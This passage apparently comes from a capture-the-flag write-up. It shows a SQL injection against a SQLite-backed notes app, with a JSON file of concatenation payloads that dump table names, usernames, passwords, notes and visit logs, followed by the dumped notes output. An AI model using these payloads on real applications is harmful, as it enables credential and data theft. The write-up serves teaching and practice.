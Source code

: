 #### Output
```
user
username | password

notes
id | title | username | encrypted | note

visits
id | username | lastlogin | ip
```
#### Conclusions
Now that we have the column names, we can proceed to dump the data from the tables.

### `database_dump.json`
```json
{
  "3000": {
    "encrypted": 0,
    "note": "' || CAST((SELECT GROUP_CONCAT(name, ', ') FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%') AS TEXT) || '",
    "title": "tables"
  },
  "3001": {
    "encrypted": 0,
    "note": "' || CAST((SELECT GROUP_CONCAT(name, ' | ') FROM PRAGMA_table_info('user')) AS TEXT) || CAST((SELECT '\n') AS TEXT) || CAST((SELECT GROUP_CONCAT(rows, '\n') FROM (SELECT username || ' | ' || password AS rows FROM user)) AS TEXT) || '",
    "title": "user"
  },
  "3002": {
    "encrypted": 0,
    "note": "' || CAST((SELECT GROUP_CONCAT(name, ' | ') FROM PRAGMA_table_info('notes')) AS TEXT) || CAST((SELECT '\n') AS TEXT) || CAST((SELECT GROUP_CONCAT(rows, '\n') FROM (SELECT id || ' | ' || title || ' | ' || username || ' | ' || encrypted || ' | ' || note AS rows FROM notes)) AS TEXT) || '",
    "title": "notes"
  },
  "3003": {
    "encrypted": 0,
    "note": "' || CAST((SELECT GROUP_CONCAT(name, ' | ') FROM PRAGMA_table_info('visits')) AS TEXT) || CAST((SELECT '\n') AS TEXT) || CAST((SELECT GROUP_CONCAT(rows, '\n') FROM (SELECT id || ' | ' || username || ' | ' || lastlogin || ' | ' || ip AS rows FROM visits)) AS TEXT) || '",
    "title": "visits"
  }
}
```
#### Output (only `notes` table)
```
id | title | username | encrypted | note
714 | Hoist the colours! | admin | 1 | 950902d52cf09d9c25bc476361119bfd.f0a6f3dfa5163aff51b4bd3123bb20db907a4532b58a9adf331948c787b14883ce87777b9b367a78b95a34ab9c771171696aca7087ed8da47f3496b6d7b55bea
715 | Notes from meeting 08/01/24 | scotty | 0 |
We had a solid chat today about our note encryption logic. The hot topic was our combo of AES in CBC mode and PBKDF2 for key derivation. We tossed around a few new ideas for our PBKDF2 salt. Currently our approach looks something like that:
```
```python
key = PBKDF2(note_password, username, 16, count=1000000)
iv = get_random_bytes(16)
cipher = AES.new(key, AES.MODE_CBC, iv) 
note = cipher.encrypt(pad(content, 16))
```